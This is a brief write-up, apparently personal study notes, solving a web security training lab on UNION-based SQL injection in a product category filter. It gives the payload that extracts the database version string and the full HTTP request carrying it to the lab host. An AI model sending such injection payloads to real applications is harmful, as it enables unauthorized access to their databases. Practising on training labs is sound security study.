 This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.



Para ambas nos sirve la misma sintaxis en este caso

```sql
' UNION SELECT @@VERSION, NULL-- -
```

En burp se veria de la siguiente manera

```http
GET /filter?category=' UNION SELECT @@VERSION, NULL-- - HTTP/2
Host: 0a4f00a603130c9f8011213900cf00df.web-security-academy.net
Cookie: session=XLoTtq6Q2lrCAb7odgBc1iy7c87wgcyI
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a4f00a603130c9f8011213900cf00df.web-security-academy.net/filter?category=Clothing%2c+shoes+and+accessories
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers


```

![[Pasted image 20250514171329.png]]